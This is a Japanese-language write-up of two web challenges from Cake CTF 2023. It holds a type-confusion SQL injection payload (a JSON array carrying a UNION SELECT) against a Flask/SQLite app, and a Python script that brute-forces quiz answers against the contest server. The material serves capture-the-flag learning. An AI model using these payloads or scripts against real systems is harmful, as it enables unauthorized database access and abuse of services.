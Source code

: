 ```yaml
---
title: "Cake CTF 2023\nWriteup"
id: "cakectf-2023-writeup"
description: "Cake CTF 2023のWriteupです。"
author: "rikoteki"
createdAt: "2023-11-12"
isDraft: false
---
```


# Country DB [Web]

二文字の国コードをPOSTすると対応する国名を答えてくれるアプリケーションです。

![image](https://github.com/r1k0t3k1/note/assets/57973603/da4e8f13-994c-4b05-8b1a-dc89de0e31aa)

検索処理のリクエスト・レスポンスです。

![image](https://github.com/r1k0t3k1/note/assets/57973603/790d1256-5dbc-4f0f-b381-fae4d6e27025)

ソースコードが与えられるので確認すると、国コードをDBから検索する処理に明確なSQLインジェクション脆弱性があります。

![image](https://github.com/r1k0t3k1/note/assets/57973603/efdcebb1-a779-4167-a97b-5794fcbed8f0)

<details>
  <summary>ソースコード</summary>

```python
#!/usr/bin/env python3
import flask
import sqlite3

app = flask.Flask(__name__)

def db_search(code):
    with sqlite3.connect('database.db') as conn:
        cur = conn.cursor()
        cur.execute(f"SELECT name FROM country WHERE code=UPPER('{code}')")
        found = cur.fetchone()
    return None if found is None else found[0]

@app.route('/')
def index():
    return flask.render_template("index.html")

@app.route('/api/search', methods=['POST'])
def api_search():
    req = flask.request.get_json()
    if 'code' not in req:
        flask.abort(400, "Empty country code")

    code = req['code']
    if len(code) != 2 or "'" in code:
        flask.abort(400, "Invalid country code")

    name = db_search(code)
    if name is None:
        flask.abort(404, "No such country")

    return {'name': name}

if __name__ == '__main__':
    app.run(debug=True)

```
</details>

ただし、`code`に対して以下の条件が課されています。

- `len(code)`が2であること
- `'`が含まれていないこと

![image](https://github.com/r1k0t3k1/note/assets/57973603/8d944b98-553a-4107-84e8-438a215ef80d)


そのため、シンプルなSQLインジェクションは不可能です。

ただし、上記条件のチェックの前に`code`が文字列であることの確認がされていないため、オブジェクトを渡すことでチェックの回避が可能です。

まず、`len(code) == 2`の回避ですが、これは2要素の配列を渡すことで回避が可能です。

```json
{
  "code":[
    "",
    ""
  ]
}
```

あとは配列の1要素目にいつも通りのペイロードを渡せば　フラグが得られます。

最終的なペイロードは以下になりました。

```json
{
  "code":[
    "') union select flag from flag-- ",
    ""
  ]
}
```

![image](https://github.com/r1k0t3k1/note/assets/57973603/0229a448-aaeb-4ed4-a423-d8abb7432b7c)


# TOWFL [Web]

クイズに答えていって最終的にスコアが100ならフラグが表示されるようなアプリケーションです。

![image](https://github.com/r1k0t3k1/note/assets/57973603/c9e24e72-87e4-42da-8551-f77f27bb4ce6)

ただし、問題文や選択肢の文章は人間には理解できない言語で構成されています。

![image](https://github.com/r1k0t3k1/note/assets/57973603/18891d07-da87-45c7-b522-0fa31ac069e9)

ソースコードが与えられるので処理内容を確認します。

<details>
<summary>ソースコード</summary>

```python
#!/usr/bin/env python3
import flask
import json
import lorem
import os
import random
import redis

REDIS_HOST = os.getenv("REDIS_HOST", "redis")
REDIS_PORT = int(os.getenv("REDIS_PORT", "6379"))

app = flask.Flask(__name__)
app.secret_key = os.urandom(16)

@app.route("/")
def index():
    return flask.render_template("index.html")

@app.route("/api/start", methods=['POST'])
def api_start():
    if 'eid' in flask.session:
        eid = flask.session['eid']
    else:
        eid = flask.session['eid'] = os.urandom(32).hex()

    # Create new challenge set
    db().set(eid, json.dumps([new_challenge() for _ in range(10)]))
    return {'status': 'ok'}

@app.route("/api/question/<int:qid>", methods=['GET'])
def api_get_question(qid: int):
    if qid <= 0 or qid > 10:
        return {'status': 'error', 'reason': 'Invalid parameter.'}
    elif 'eid' not in flask.session:
        return {'status': 'error', 'reason': 'Exam has not started yet.'}

    # Send challenge information without answers
    chall = json.loads(db().get(flask.session['eid']))[qid-1]
    del chall['answers']
    del chall['results']
    return {'status': 'ok', 'data': chall}

@app.route("/api/submit", methods=['POST'])
def api_submit():
    if 'eid' not in flask.session:
        return {'status': 'error', 'reason': 'Exam has not started yet.'}

    try:
        answers = flask.request.get_json()
    except:
        return {'status': 'error', 'reason': 'Invalid request.'}

    # Get answers
    eid = flask.session['eid']
    challs = json.loads(db().get(eid))
    if not isinstance(answers, list) \
       or len(answers) != len(challs):
        return {'status': 'error', 'reason': 'Invalid request.'}

    # Check answers
    for i in range(len(answers)):
        if not isinstance(answers[i], list) \
           or len(answers[i]) != len(challs[i]['answers']):
            return {'status': 'error', 'reason': 'Invalid request.'}

        for j in range(len(answers[i])):
            challs[i]['results'][j] = answers[i][j] == challs[i]['answers'][j]

    # Store information with results
    db().set(eid, json.dumps(challs))
    return {'status': 'ok'}

@app.route("/api/score", methods=['GET'])
def api_score():
    if 'eid' not in flask.session:
        return {'status': 'error', 'reason': 'Exam has not started yet.'}

    # Calculate score
    challs = json.loads(db().get(flask.session['eid']))
    score = 0
    for chall in challs:
        for result in chall['results']:
            if result is True:
                score += 1

    # Is he/she worth giving the flag?
    if score == 100:
        flag = os.getenv("FLAG")
    else:
        flag = "Get perfect score for flag"

    # Prevent reply attack
    flask.session.clear()

    return {'status': 'ok', 'data': {'score': score, 'flag': flag}}


def new_challenge():
    """Create new questions for a passage"""
    p = '\n'.join([lorem.paragraph() for _ in range(random.randint(5, 15))])
    qs, ans, res = [], [], []
    for _ in range(10):
        q = lorem.sentence().replace(".", "?")
        op = [lorem.sentence() for _ in range(4)]
        qs.append({'question': q, 'options': op})
        ans.append(random.randrange(0, 4))
        res.append(False)
    return {'passage': p, 'questions': qs, 'answers': ans, 'results': res}

def db():
    """Get connection to DB"""
    if getattr(flask.g, '_redis', None) is None:
        flask.g._redis = redis.Redis(host=REDIS_HOST, port=REDIS_PORT, db=0)
    return flask.g._redis

if __name__ == '__main__':
    app.run()
```

</details>

処理の流れとしては

- `/api/start`で試験セッションを発行
- `/api/submit`で答案提出
- `/api/score`で結果確認、ここでスコアが100ならフラグ表示

となっています。

ここで気になったのが発行されたセッションを破棄する処理が`/api/score`を呼ばれるまで走らないということです。

かつ、回答数の制限も無いようなので一度試験を開始して発行されたセッションで総当たりすることで100点を得ることができます。

- `/api/start`で試験セッションを発行
- `/api/submit`でスコアが100になるまで総当たり
- `/api/score`でフラグ取得

あとはスクリプトを書くだけです。

<details>
  <summary>solver.py</summary>

```python
import requests
import sys

answers = [[None for j in range(10)] for i in range(10)]

cookie = {"Cookie": "session=.eJwFwYsNwCAIBcBdmAAMP7sN-jBxhqa79-6lvqCHJiMYZtvbp2YoVoUGxNPLWmKNnGckDgO8bfXWZpUKrhEq9P34IRRG.ZU8yWg.PIv8BjWOiTBYx3PXh0nykpuS2v4"}

SCORE_UPDATE_URL = "http://towfl.2023.cakectf.com:8888/api/submit"
RESULT_URL = "http://towfl.2023.cakectf.com:8888/api/score"

score = 0

for i in range(0,10):
  for j in range(0,10):
    for k in range(0,4):
      answers[i][j] = k
      res1 = requests.post(
        SCORE_UPDATE_URL,
        json=answers,
        headers=cookie,
        proxies={"http":"http://localhost:8080", "https":"http://localhost:8080"})
      if res1.status_code == 200:
          res2 = requests.get(RESULT_URL, headers=cookie)
          json = res2.json()
          if json["data"]["flag"] != "Get perfect score for flag":
              print(json)
              sys.exit(0)
          if json["data"]["score"] > score:
              score = json["data"]["score"]
              break
```

</details>

スクリプトを実行してしばらく待つとフラグが得られます。

![image](https://github.com/r1k0t3k1/note/assets/57973603/34625b3b-2d05-4a45-aec1-0bd6f358e098)


